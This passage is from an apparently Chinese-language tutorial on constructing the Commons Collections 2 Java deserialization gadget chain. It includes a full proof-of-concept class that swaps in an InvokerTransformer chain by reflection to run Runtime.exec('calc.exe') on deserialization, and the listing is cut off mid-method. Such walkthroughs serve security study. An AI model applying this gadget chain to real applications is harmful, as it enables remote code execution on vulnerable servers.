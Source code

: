 最后就是如何保证能走到siftDownUsingComparator的conpare了。PriorityQueue里面有很多的if语句，我们一个个来看。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231207182318.png)

调试运行一下发现这里size为零没过去，size代表了priority queue里面元素的数量

随便添加两个数试试：

```
priorityQueue.add(1);
priorityQueue.add(2);
```

运行发现添加第二个数时直接弹出计算器，下断点调试一下：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231207183053.png)

在添加第二个对象的时候会走到compare从而调用计算器，尝试用之前CC6的方法，也就是一开始传一个假的Transformer：

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CC2_LazyMap_8u65 {
    public static void main(String[] args) throws Exception{
        Transformer[] faketransformer = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(faketransformer);
        Comparator transformingcomparator = new TransformingComparator(transformerChain);
        PriorityQueue priorityQueue = new PriorityQueue(2,transformingcomparator);
        priorityQueue.add(1);
        priorityQueue.add(2);

        Field f = org.apache.commons.collections4.functors.ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain,transformers);


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(priorityQueue);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```
